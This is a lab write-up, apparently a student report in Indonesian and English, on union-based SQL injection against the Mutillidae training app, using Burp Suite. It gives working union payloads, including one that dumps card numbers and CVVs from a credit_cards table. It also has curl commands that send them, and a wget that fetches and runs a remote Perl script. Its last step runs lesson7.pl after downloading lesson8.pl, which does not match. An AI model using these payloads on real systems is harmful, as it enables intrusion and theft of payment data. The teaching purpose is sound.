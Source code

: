 # Lesson 8 : SQL Injection Union Exploit #1

## Start Web Browser Session to Multillidae
- Buka browser kemudian akses Multillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 

## Configure Firefox Proxy Settings
1. View Preferences
   - Edit --> Preferences
2. Advanced Settings
   - Pilih Menu Advanced
   - Pilih Network Tabs
   - Pilih Settings
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan manual proxy
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, Kemudian Close
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn on intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off "intercept is off"
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection (Union Example #1)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. First Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. SQL Error
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya
	- Errornya terjadi karena perbedaan jumlah coloumn pada database

## SQL Injection (Union Example #2)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select null,null,null,null,null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya

## SQL Injection (Union Example #3)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select 1,2,3,4,5 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
		- Pada hasilnya, terdapat 1 record ditemukan dengan value seperti berikut:
			- Username=2
			- Password=3
			- Signature=4

## SQL Injection (Union Example #4)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
	- Pada hasilnya, terdapat 5 record ditemukan

## SQL Injection (Union Example with Curl #5)
1. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File"
2. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies.txt**
   - Klik tombol Save
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/4/save_burp.png "Home page")
3. Use Curl to Display Usernames and Passwords
   - Buka terminal, jalankan perintah berikut : 
 ```
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
 ```

## Perl Parser
   - Buka terminal, jalankan perintah berikut :
 ```
   cd /root
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username="  > lesson8.txt
   cat lesson8.txt
 ```

## Download Parser
   - Buka terminal, jalankan perintah berikut :
   ```
   cd /root
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
   mv lesson8.pl.TXT lesson8.pl
   chmod 700 lesson8.pl
   ```

## Run Perl Script
   - Buka terminal, jalankan perintah berikut :
   ```
   ./lesson7.pl
   ```